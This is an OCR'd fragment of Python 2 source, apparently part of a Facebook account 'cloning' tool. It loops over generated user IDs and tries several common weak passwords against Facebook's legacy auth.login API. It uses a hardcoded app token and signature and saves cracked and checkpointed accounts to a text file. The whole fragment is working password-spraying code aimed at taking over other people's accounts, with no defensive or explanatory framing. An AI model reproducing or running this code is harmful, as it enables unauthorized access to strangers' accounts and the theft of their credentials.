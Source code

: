     elif peak == '0':
        login_choice()
    else:
        print '[!] Fill In Correctly'
        action()
    xxx = str(len(id))
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Cloning Process Has Been Started')
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Trying Passwords Wait...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    print '\x1b[1;97m--------------------------------------------------'

    def main(arg):
        user = arg
        try:
            os.mkdir('anggaxd')
        except OSError:
            pass

        try:
            pass1 = '1122334455'
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass1
                okb = open('anggaxd/clone.txt', 'a')
                okb.write(k + c + user + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass1
                cps = open('anggaxd/clone.txt', 'a')
                cps.write(k + c + user + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
            else:
                pass2 = '1234554321'
                data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[1;92m[Sucsesfully]  ' + k + c + user + '  \x1b[1;97m|  ' + pass2
                    okb = open('anggaxd/clone.txt', 'a')
                    okb.write(k + c + user + pass2 + '\n')
                    okb.close()
                    oks.append(c + user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[1;93m[Checkpoint] \x1b[1;97m' + k + c + user + '  \x1b[1;97m|  ' + pass2
                    cps = open('anggaxd/clone.txt', 'a')
                    cps.write(k + c + user + pass2 + '\n')
                    cps.close()
                    cpb.append(c + user + pass2)
                else:
                    pass3 = '123456789'
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')